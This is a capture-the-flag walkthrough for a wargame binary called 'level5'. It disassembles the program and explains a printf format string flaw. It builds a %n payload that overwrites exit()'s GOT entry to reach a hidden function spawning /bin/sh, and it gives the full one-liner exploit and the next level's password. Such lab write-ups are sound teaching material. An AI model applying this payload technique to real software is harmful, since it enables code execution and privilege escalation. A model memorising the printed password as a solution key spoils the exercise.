 # Level5 Walkthrough

## 🎯 Goal
Exploit a format string vulnerability to overwrite the GOT entry of `exit()` and redirect execution to the hidden `o()` function that spawns a shell.

---

## 🔍 Step 1: Binary Analysis

### main function
```asm
0x08048504 <+0>: push %ebp
0x08048505 <+1>: mov %esp,%ebp
0x08048507 <+3>: and $0xfffffff0,%esp
0x0804850a <+6>: call 0x80484c2 <n> ; Calls function n
0x0804850f <+11>: leave
0x08048510 <+12>: ret
```

### n function (vulnerable)
```asm
0x080484c2 <+0>: push %ebp
0x080484c3 <+1>: mov %esp,%ebp
0x080484c5 <+3>: sub $0x218,%esp ; Allocate 536 bytes
0x080484cb <+9>: mov 0x8049848,%eax ; stdin
0x080484d0 <+14>: mov %eax,0x8(%esp)
0x080484d4 <+18>: movl $0x200,0x4(%esp) ; Read 512 bytes
0x080484dc <+26>: lea -0x208(%ebp),%eax
0x080484e2 <+32>: mov %eax,(%esp)
0x080484e5 <+35>: call 0x80483a0 <fgets@plt> ; fgets(buffer)
0x080484ea <+40>: lea -0x208(%ebp),%eax
0x080484f0 <+46>: mov %eax,(%esp)
0x080484f3 <+49>: call 0x8048380 <printf@plt> ; VULNERABILITY!
0x080484f8 <+54>: movl $0x1,(%esp)
0x080484ff <+61>: call 0x80483d0 <exit@plt> ; Always exits
```

### o function (hidden shell)
```asm
0x080484a4 <+0>: push %ebp
0x080484a5 <+1>: mov %esp,%ebp
0x080484a7 <+3>: sub $0x18,%esp
0x080484aa <+6>: movl $0x80485f0,(%esp) ; "/bin/sh"
0x080484b1 <+13>: call 0x80483b0 <system@plt> ; system("/bin/sh")
0x080484b6 <+18>: movl $0x1,(%esp)
0x080484bd <+25>: call 0x8048390 <_exit@plt>
```

---

## 🔍 Step 2: Vulnerability Analysis

- **Format String Vulnerability:** `printf(buffer)` directly prints user input.
- **Always Exits:** Program always calls `exit()` after printf.
- **Hidden Function:** `o()` exists at `0x080484a4` → calls `system("/bin/sh")`.
- **Goal:** Overwrite the **GOT entry of exit()** (`0x08049838`) with `o()`'s address.

---

## 🔍 Step 3: GOT Address & Stack Offset

Find exit GOT entry:
```bash
objdump -R level5 | grep exit
08049838 R_386_JUMP_SLOT exit
```

Find offset in stack:
```bash
python -c 'print "AAAA.%x.%x.%x.%x.%x.%x.%x.%x"' | ./level5
```

Output includes:
```
AAAA.200.b7fd1ac0.b7ff37d0.41414141...
```

`41414141` (`"AAAA"`) appears at **4th position** → **Offset = 4**

---

## 🔍 Step 4: Exploit Strategy

**What we need to do:**
1. **Target Address:** `0x08049838` (exit's GOT entry)
2. **Target Value:** `0x080484a4` (address of function `o`)
3. **Method:** Use `%n` to write the character count to the GOT address

**Key Insight:** 
- We need to print exactly `134513828` characters (decimal value of `0x080484a4`)
- Then use `%4$n` to write this count to the 4th stack argument (our target address)

**Address Calculation:**
- Target value: `0x080484a4` = `134,513,828` in decimal
- We place the target address first (4 bytes)
- Need to print `134,513,828 - 4 = 134,513,824` more characters
- Use `%134513824d` to pad with spaces

---

## 🔍 Step 5: Craft Payload

**Payload Structure:**
```
[target_addr][padding_format][write_specifier]
```

**Breakdown:**
- `\x38\x98\x04\x08` - GOT address of exit() (little-endian)
- `%134513824d` - Print 134,513,824 characters (spaces)  
- `%4$n` - Write total character count to 4th stack argument

**Why this works:**
1. The address `\x38\x98\x04\x08` gets placed on the stack at position 4
2. `%134513824d` prints exactly 134,513,824 spaces
3. Total characters printed: 4 (address) + 134,513,824 (spaces) = 134,513,828
4. `%4$n` writes 134,513,828 to address `0x08049838`
5. `0x080484a4` (134,513,828 in decimal) is now stored in exit's GOT entry

---

## 🚀 Step 6: Execute Exploit

```bash
(python -c 'print "\x38\x98\x04\x08"+"%134513824d%4$n"' ; cat -) | ./level5
```

**Command Breakdown:**
- `python -c '...'` - Generate the payload
- `; cat -` - Keep stdin open after payload to interact with shell
- `| ./level5` - Pipe to the vulnerable program

---

## 🔍 Step 7: What Happens

**Execution Flow:**
1. **Input Phase:** Program reads our payload via `fgets()`
2. **Format String Phase:** `printf(buffer)` processes our format string:
    - Prints the 4-byte address (unprintable characters)
    - Executes `%134513824d` - prints 134,513,824 spaces (takes time!)
    - Executes `%4$n` - writes 134,513,828 to `0x08049838`
3. **GOT Overwrite:** exit's GOT entry now points to function `o()` instead of exit
4. **Redirection:** When program calls `exit(1)`, it actually calls `o()`
5. **Shell Spawn:** Function `o()` executes `system("/bin/sh")`

**Memory State After Exploit:**
```
Before: 0x08049838 → exit() function
After:  0x08049838 → o() function (0x080484a4)
```

---

## 🎯 Step 8: Get the Password

After the exploit runs and you see the shell prompt:
```bash
$ whoami
level6
$ cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

---

## 🎉 Success!

You now have a shell as **level6**.

---

> **Note:**  
> This exploit does not rely on a buffer overflow. Instead, it abuses the format string vulnerability in printf. By carefully crafting the input, we place the address of the exit() GOT entry onto the stack at a specific position, determined by the format string offset. When `%n` is processed, it writes the total number of characters printed so far into that memory location, effectively overwriting the GOT entry of exit() with the address of the hidden `o()` function. After the overwrite, when the program calls `exit()`, the CPU looks up the address in the GOT and instead jumps to `o()`, which executes `system("/bin/sh")` and gives a shell. This technique hijacks program flow by exploiting the behavior of printf and the dynamic linking mechanism, without needing to overflow any buffers.
